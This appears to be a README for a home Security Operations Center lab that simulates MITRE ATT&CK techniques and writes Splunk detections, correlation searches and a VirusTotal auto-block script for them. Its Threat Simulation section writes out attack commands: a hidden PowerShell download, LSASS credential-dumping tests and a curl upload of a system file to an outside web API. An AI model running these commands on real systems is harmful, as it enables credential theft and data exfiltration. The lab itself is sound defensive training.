# 🛡️ Home SOC & Threat Detection Lab

**An end-to-end, hands-on Security Operations Center (SOC) lab built at home — deploying a SIEM, hardening an endpoint, ingesting telemetry, and engineering detections mapped to the MITRE ATT&CK framework.**

> Built by Przemyslaw Wierzbicki — aspiring SOC Analyst

---

## 📋 Project Overview

| | |
|---|---|
| **SIEM Platform** | Splunk Enterprise (Ubuntu Server) |
| **Endpoint Monitored** | Windows 10 |
| **Log Transport** | Splunk Universal Forwarder |
| **Endpoint Telemetry** | Sysmon 15.x |
| **Framework** | MITRE ATT&CK |
| **Automation** | Python 3 + VirusTotal API + Windows Firewall|
| **Virtualization** | Oracle VirtualBox (isolated host-only network) |
| **Status** | ✅ Finished — see [Roadmap](#roadmap) |

---

## 📐 Architecture & Topology


```mermaid
graph TD
    subgraph Lab ["Isolated Host-Only Network (192.168.56.0/24)"]
        direction LR
        WIN["💻 <b>Windows 10 Target</b><br/>IP: 192.168.56.102<br/>Sysmon + Universal Forwarder"]
        SPLUNK["⚙️ <b>Ubuntu Server</b><br/>IP: 192.168.56.101<br/>Splunk Enterprise<br/><i>:8000 (UI) | :9997 (Ingest)</i>"]
        
        WIN -- "Log Forwarding<br/>(TCP/9997)" --> SPLUNK
    end

    INET(("🌐 Internet"))
    WIN -. "NAT Adapter<br/>(Atomic RT / Tooling)" .-> INET
    SPLUNK -. "NAT Adapter<br/>(Updates)" .-> INET

    style WIN fill:#1e293b,stroke:#3b82f6,stroke-width:2px,color:#fff
    style SPLUNK fill:#1e293b,stroke:#10b981,stroke-width:2px,color:#fff
    style INET fill:#0f172a,stroke:#64748b,stroke-width:1px,color:#fff
```

- **Adapter 1:** Host-Only network — isolated lab communication
- **Adapter 2:** NAT — internet access for updates/tooling

---

## 📁 Repository Structure

```
soc-detection-lab/
├── README.md
├── docs/
│   └── assets/     # screenshots & MITRE Navigator heatmap (evidence)
├── incident-reports/
│   └── IR-001-multi-stage-attack-chain.md
├── rules/          # SPL detection rules / Sigma rules / ATT&CK layer JSON
├── samples/        # sample logs, sample malicious command lines
└── scripts/        # setup / config scripts (inputs.conf, sysmonconfig.xml, etc.)
```

---

## 🚀 Implementation Progress

- ✅ **Phase 1 — SIEM Deployment**
  Deployed Splunk Enterprise on Ubuntu, management UI on port 8000, receiver enabled on port 9997.

- ✅ **Phase 2 — Endpoint Hardening & Monitoring**
  Deployed Sysmon 15.x on the Windows 10 target with a modular config; verified events in `Microsoft-Windows-Sysmon/Operational`.

- ✅ **Phase 3 — Telemetry Ingestion**
  Deployed Splunk Universal Forwarder, configured `inputs.conf` to forward Application/Security/System/Sysmon logs. Validated pipeline end-to-end in Splunk (`index=main`).

- ✅ **Phase 4 — Threat Simulation**
  5 MITRE ATT&CK techniques simulated, forming a full attack chain (Execution → Credential Access → Persistence → Collection → Exfiltration).

- ✅ **Phase 5 — Detection Engineering**
  5 custom SPL alerts + 1 multi-stage correlation search + MITRE ATT&CK Navigator heatmap.

- ✅ **Phase 6 — Dashboards & Screenshots**
  Real evidence captured for every detection: live Splunk searches, alert configuration, and correlation search results — see inline screenshots below.

- ✅ **Phase 7 — Incident Reports**
  Full incident report written for the multi-stage attack chain, modeled on real SOC analyst documentation standards — see [`incident-reports/IR-001-multi-stage-attack-chain.md`](incident_reports/IR-001-multi-stage-attack-chain.md).

- ✅ **Phase 8 — Automated Response (SOAR-lite)**
  Python script that enriches source IPs from Splunk-exported alerts with VirusTotal reputation data and automatically blocks malicious IPs (more than 3 engine detections) via Windows Firewall, then notifies a webhook — see [Automated Response](#automated-response).

---

## ⚔️ Threat Simulation

**Technique simulated:** T1059.001 — Command and Scripting Interpreter: PowerShell

Executed an obfuscated PowerShell command that bypasses execution policy, hides the window, and downloads a file into a temp directory:

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE' -OutFile '$env:TEMP\suspicious_script.ps1'"
```

---

**Technique simulated:** T1003.001 — OS Credential Dumping: LSASS Memory

Used Atomic Red Team to execute a credential-dumping test against the LSASS process, simulating techniques attackers use to extract cached credentials from memory:

```powershell
Invoke-AtomicTest T1003.001 -GetPrereqs
Invoke-AtomicTest T1003.001
```

---

**Technique simulated:** T1136.001 — Create Account: Local Account

Used Atomic Red Team to simulate an attacker creating a new local account for persistence:

```powershell
Invoke-AtomicTest T1136.001 -GetPrereqs
Invoke-AtomicTest T1136.001
```

---

**Technique simulated:** T1560.001 — Archive Collected Data: Archive via Utility

Used Atomic Red Team to simulate an attacker staging and compressing collected data using common archive utilities (7-Zip, WinRAR, WinZip, makecab) before exfiltration:

```powershell
Invoke-AtomicTest T1560.001 -GetPrereqs
Invoke-AtomicTest T1560.001
```

---

**Technique simulated:** T1567 — Exfiltration Over Web Service

Simulated an attacker exfiltrating a sensitive local file (`hosts`) by uploading it directly to a public third-party web API rather than to attacker-controlled infrastructure — a technique real attackers use to blend exfiltration traffic in with legitimate HTTPS/API traffic:

```powershell
curl.exe -F "file=@C:\Windows\System32\drivers\etc\hosts" https://reqres.in/api/users
```

This closes out the attack chain simulated so far: **Execution → Credential Access → Persistence → Collection → Exfiltration.**

---

## 🔍 Detection Engineering

**Threat hunting query — PowerShell execution (SPL):**

```spl
index=main EventCode=1 Image="*powershell.exe" (CommandLine="*-ExecutionPolicy Bypass*" OR CommandLine="*-WindowStyle Hidden*")
| table _time ComputerName User Image CommandLine ParentCommandLine
```


*Live Splunk search confirming the obfuscated PowerShell invocation was captured.*

**Alert configuration — Suspicious Obfuscated PowerShell Execution (T1059.001):**


*Real-time alert, triggers when Number of Results > 0 within 1 minute.*

---

**Threat hunting query — LSASS credential dumping (SPL):**

```spl
index=main source="*Sysmon*" (CommandLine="*lsass*" OR CommandLine="*xordump*" OR CommandLine="*rdrleakdiag*")
| table _time host EventCode SourceImage TargetImage CommandLine
```

**Detection rule — LSASS access via Sysmon process creation / access events (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" lsass (EventCode=1 OR EventCode=10)
| table _time, host, EventCode, SourceImage, TargetImage, CommandLine
| sort _time
```


*8 events captured, including the `xordump` and `rdrleakdiag` evasion tools accessing `lsass.exe`.*

---

**Threat hunting query — local account creation (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "net user"
| table _time, CommandLine, Image
```

**Detection rule — local account / group manipulation via Sysmon (SPL):**

```spl
index=main source="*Sysmon*" EventCode=1 (CommandLine="*net user*" OR CommandLine="*localgroup*")
| table _time host EventCode Image CommandLine User
```


*Both the `net user /add` account creation and the follow-up `net localgroup administrators ... /add` privilege escalation captured.*

---

**Threat hunting query — archive utility usage for data staging (SPL):**

```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 (CommandLine="*zip*" OR CommandLine="*7z*" OR CommandLine="*rar*" OR CommandLine="*makecab*")
| table _time, Image, CommandLine
```


*13 events captured across multiple archive utilities (7-Zip, WinRAR, WinZip, makecab) used to stage data for exfiltration.*

---

**Threat hunting query — exfiltration via web upload (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=1 OR EventCode=3) (Image="*curl.exe" OR Image="*powershell.exe")
| table _time, host, EventCode, Image, CommandLine, DestinationIp, DestinationPort
```


*`curl.exe` uploading `hosts` to `reqres.in/api/users`, captured alongside the outbound network connection event (EventCode 3).*

---

| Rule | Technique | Trigger | Severity | Action |
|---|---|---|---|---|
| Suspicious Obfuscated PowerShell Execution | T1059.001 | `Number of Results > 0` | High | Dashboard notification + event tagging |
| Suspicious LSASS Memory Access | T1003.001 | `Number of Results > 0` | Critical | Dashboard notification + event tagging |
| Suspicious Local Account / Group Manipulation | T1136.001 | `Number of Results > 0` | High | Dashboard notification + event tagging |
| Suspicious Archive Utility Usage (Data Staging) | T1560.001 | `Number of Results > 0` | Medium | Dashboard notification + event tagging |
| Suspicious Outbound File Upload (Exfiltration) | T1567 | `Number of Results > 0` | High | Dashboard notification + event tagging |

---

## 🔗 Multi-Stage Attack Correlation

Instead of relying on five isolated alerts, this correlation search ties the individual techniques together into a single detection: it tags every matching event with the attack stage it represents, then groups by host and user to flag any host that has shown **3 or more distinct stages of the attack chain** within the search window — a much stronger signal of an active, in-progress intrusion than any single alert firing on its own.

**Correlation search — multi-stage attack chain detection (SPL):**

```spl
index=main source="*Sysmon*" 
| eval attack_stage=case(
match(CommandLine, "(?i)-ExecutionPolicy Bypass|-WindowStyle Hidden"), "1. Execution(T1059.001)",
(match(CommandLine, "(?i)xordump|rdrleakdiag") OR (match(TargetImage,"(?i)lsass") AND EventCode=10)),
"2. Credential Access (T1003.001)",
match(CommandLine,"(?i)net user|localgroup"),"3. Persistence (T1136.001)",
match(CommandLine,"(?i)zip|7z|rar|makecab"),"4. Collection(T1560.001)",
match(Image, "(?i)curl\.exe|powershell\.exe") AND match(CommandLine, "(?i)reqres|http"), "5. Exfiltration(T1567)"
)
| where isnotnull(attack_stage)
| stats 
    dc(attack_stage) as stages_count,
    values(attack_stage) as stages_detected,
    min(_time) as first_seen,
    max(_time) as last_seen,
    values(CommandLine) as executed_commands
    by host, User
| where stages_count>=3
| eval attack_duration_sec=last_seen-first_seen
| convert ctime(first_seen) ctime(last_seen)
| table host,User, stages_count, stages_detected, attack_duration_sec, first_seen, last_seen, executed_commands
```


*The correlation search tagging each event with its corresponding attack-chain stage.*


*Result: `Windows10-Victim` flagged with all 5 attack stages detected end-to-end — Execution, Credential Access, Persistence, Collection, and Exfiltration — proving the full kill chain was captured and correlated in a single query.*

| Rule | Technique(s) Covered | Trigger | Severity | Action |
|---|---|---|---|---|
| Multi-Stage Attack Chain Detected | T1059.001, T1003.001, T1136.001, T1560.001, T1567 | `stages_count >= 3` for the same host/user | Critical | Immediate dashboard notification + incident escalation |

> 📄 **Full write-up:** This correlated detection was escalated and documented end-to-end in [`incident-reports/IR-001-multi-stage-attack-chain.md`](incident-reports/IR-001-multi-stage-attack-chain.md) — including timeline, evidence, root cause, containment steps, and lessons learned.

---

## 🗺️ MITRE ATT&CK Navigator Heatmap

Visual heatmap of all techniques simulated and detected in this lab, generated with the [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)



> 🔗 **Interactive Layer:** You can inspect the full JSON layer file in [`rules/att&ck_layer.json`](rules/att&ck_layer.json).

---

## <a id="automated-response"></a>🤖 Automated Response — VirusTotal IP Enrichment & Auto-Block
 
Detection is only half of the job, so this step closes the loop: a Python script takes the source IPs from a Splunk alert, checks their reputation on VirusTotal and, if an IP is flagged malicious, blocks it on the endpoint with Windows Firewall and notifies the SOC through a webhook. This is a small **SOAR-style** (Security Orchestration, Automation and Response) building block.
 

```mermaid
graph LR
    A["🔔 Splunk alert<br/>(Sysmon EventCode 3)"] --> B["📄 Export results<br/>as JSON"]
    B --> C["🐍 vt_auto_block.py"]
    C --> D{"🔎 VirusTotal<br/>malicious > 3?"}
    D -- "No" --> E["✅ CLEAN<br/>no action"]
    D -- "Yes" --> F["🧱 Windows Firewall<br/>block IN"]
    F --> G["📣 Webhook<br/>notification"]
 
    style C fill:#1e293b,stroke:#3b82f6,stroke-width:2px,color:#fff
    style F fill:#7f1d1d,stroke:#ef4444,stroke-width:2px,color:#fff
    style E fill:#14532d,stroke:#22c55e,stroke-width:2px,color:#fff
```
 
 
### 🐍 Source code
 
| File | Description |
|---|---|
| [`scripts/vt_auto_block.py`](scripts/vt_auto_block.py) | VirusTotal enrichment + automatic Windows Firewall blocking + webhook notification |

```python
import json
import sys
import os
import requests
import subprocess

def check_vt_ip(ip_address,api_key):
    url=f"https://www.virustotal.com/api/v3/ip_addresses/{ip_address}"

    headers={
        "x-apikey":api_key
    }
    try:
        response=requests.get(url,headers=headers, timeout=5)
        if response.status_code==200:
            data=response.json()
            malicious_count=data["data"]["attributes"]["last_analysis_stats"]["malicious"]
            return malicious_count
        else:
            print(f"[ERROR] API responded with a status code: {response.status_code}")
            return None
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Connection error with VirusTotal {e}")
        return None


def block_ip(ip_address,malicious_count):
    if  malicious_count is not None and malicious_count > 3:
        print(f"[DANGER] IP {ip_address} identified as malicious ({malicious_count} detections). Initiating block ...")
        rule_name = f"SOC_Block_Malicious_IP_{ip_address}"
        command = [
            "netsh", "advfirewall", "firewall", "add", "rule",
            f"name={rule_name}", "dir=in", "action=block", f"remoteip={ip_address}"
        ]
        result=subprocess.run(command, capture_output=True,text=True )
        if result.returncode==0:
            print(f"[SUCCESS] The address {ip_address} has been blocked in the firewall!")
        else:
            print(f"[ERROR] Failed to block IP. Error: {result.stderr}")
    else:
        print(f"[CLEAN] IP {ip_address} is safe, {malicious_count} detections")


def send_to_webhook_malicious_ip(event,url):
    ip_addr = event.get("src_ip", "Unknown")
    try:
        requests.post(url,json=event,timeout=5)
        print(f"[INFO] Information about the blocking of IP address {ip_addr} has been sent to the webhook")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Failed to send data to the webhook: {e}")


def extracting_ip_addresses_and_block(input_file,webhook):
    try:
        with open(input_file,"r",encoding="utf-8") as f:
            events=json.load(f)
    except Exception as e:
        print(f"[ERROR] Couldn't open JSON file: {e}")
        sys.exit(1)
    api_key = os.environ.get("VT_API_KEY")
    if not api_key:
        print("[ERROR] API key missing. Set the VT_API_KEY environment variable before running the script.")
        sys.exit(1)
    for event in events:
        ip_addr = event.get("src_ip","Unknown")
        if not ip_addr.startswith(("10.","192.168.","172.16.")):
            malicious_count=check_vt_ip(ip_addr,api_key)
            block_ip(ip_addr,malicious_count)
            if malicious_count is not None and malicious_count>3:
                send_to_webhook_malicious_ip(event,webhook)
        else:
            print(f"Skipping VT check for private IP: {ip_addr}")

if len(sys.argv)<3:
    print("Usage: python vt_auto_block.py <path_to_json_file> <webhook_url>")
    sys.exit(1)

extracting_ip_addresses_and_block(sys.argv[1], sys.argv[2])


```
### 📸 Result
 

*Script output: public IPs checked against VirusTotal, the malicious one flagged, firewall rules created, webhook notified.*

 
### ▶️ How to run it
 
**Requirements:** Windows 10 (terminal opened **as Administrator**), Python 3, `pip install requests json sys os subprocess`, a free VirusTotal API key stored in the `VT_API_KEY` environment variable.
 
```powershell
pip install requests
$env:VT_API_KEY="<key>"
 
# Run
python scripts\vt_auto_block.py samples\test_events.json <webhook_url>
```
 
**Input file** is a list of events with a `src_ip` field. It can be produced from Splunk by exporting the results of this search as JSON:
 
```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| rename DestinationIp as src_ip
| table _time host Image src_ip DestinationPort
```
 
### 🧠 Design notes
 
- **Private IPs are skipped.** Basic filtering prevents checking private IPv4 ranges (10.x.x.x, 192.168.x.x, 172.16.x.x) to save VirusTotal API quota.
- **Configurable threshold.** More than 3 malicious verdicts triggers a block.
- **Inbound Firewall enforcement.** Creates inbound block rules (`dir=in`) via `netsh` for malicious remote IPs.
- **No secrets in code.** The API key is read from an environment variable.
- **Auditable rules.** Rules are named `SOC_Block_Malicious_IP_<ip_address>` for easy review and cleanup; existing rules are not duplicated.

## 📄 Incident Reports

| Report | Technique(s) | Severity | Summary |
|---|---|---|---|
| [IR-001 — Multi-Stage Attack Chain](incident_reports/IR-001-multi-stage-attack-chain.md) | T1059.001, T1003.001, T1136.001, T1560.001, T1567 | Critical | Full kill chain from initial PowerShell execution through credential theft, persistence, data staging, and exfiltration — detected end-to-end via the multi-stage correlation search above. |

Each report follows a consistent structure: Executive Summary, Timeline, Evidence, Investigation, Root Cause, Containment & Remediation, Lessons Learned, and MITRE ATT&CK Mapping. 

---

## 🔑 Key Technical Findings

- Splunk's `index=main` retains forwarded events even if an attacker later tries to clear local Windows logs — centralized logging beats local tampering.
- Matching on both `-ExecutionPolicy Bypass` and `-WindowStyle Hidden` narrows results to genuinely suspicious PowerShell invocations rather than all PowerShell activity.
- LSASS credential dumping doesn't always show up as a clean process name — tools like `xordump` or `rdrleakdiag` are used to evade signature-based detection, so hunting on process access patterns (Sysmon EventCode 10, `TargetImage=lsass.exe`) is more resilient than blocking by filename alone.
- Local account creation via `net user` is a fast, low-noise way for an attacker to establish persistence — pairing the command-line string with `localgroup` catches both the account creation and the follow-up privilege escalation (adding the new account to an admin group).
- Data staging via archive utilities (7-Zip, WinRAR, WinZip, makecab) is a common precursor to exfiltration — because attackers can use any of several tools for the same goal, the detection needs to match on the *behavior* (compressing files into an archive) across multiple binaries rather than a single process name.
- Exfiltrating over a legitimate public web API (rather than attacker-owned infrastructure) is a realistic evasion technique — the traffic looks like normal HTTPS to an API endpoint, so detection has to rely on process-level context (an unusual process like `curl.exe` making an outbound connection, carrying a local file as form data) rather than domain reputation alone.
- A single alert can be a false positive, but a correlation search tying `eval`-tagged attack stages to `stats ... by host, User` turns isolated low/medium-confidence signals into a high-confidence, prioritized detection — this is the same escalation logic a SOC analyst uses when triaging multiple related alerts into one incident.
- Automating the response closes the detect → enrich → respond loop: reputation enrichment (VirusTotal) turns a raw IP into a decision, and a firewall rule turns the decision into containment in seconds. Rate limits, private-IP filtering and an allowlist are what make such automation safe enough to trust.

---

## <a id="roadmap"></a>🗺️ Roadmap

- [x] Simulate a credential access technique
- [x] Simulate a persistence technique 
- [x] Simulate a collection technique 
- [x] Simulate an exfiltration technique  — completes a full attack chain
- [x] Build a correlation rule that fires when multiple attack-chain stages occur on the same host in a short window
- [x] Generate a MITRE ATT&CK Navigator heatmap of techniques covered
- [x] Capture real screenshots of alerts and detections
- [x] Write an incident report from real alert data (timeline, root cause, containment, lessons learned)
- [x] Automate response: VirusTotal IP enrichment + Windows Firewall auto-block + webhook notification

---

## 🛠️ Technologies Used

| Category | Technology |
|---|---|
| SIEM | Splunk Enterprise |
| Endpoint Detection | Sysmon 15.x |
| Log Transport | Splunk Universal Forwarder |
| Virtualization | Oracle VirtualBox |
| Framework | MITRE ATT&CK |
| OS — SIEM | Ubuntu Server |
| OS — Endpoint | Windows 10 |

---

## 👤 About

**Przemyslaw Wierzbicki** — building hands-on SOC/detection engineering skills through this home lab.

- 🐙 GitHub: [PoeticLinee](https://github.com/PoeticLinee)
- 💼 LinkedIn: [Przemysław Wierzbicki](https://www.linkedin.com/in/przemysław-wierzbicki-42b840424/)

---

## 📄 License

MIT License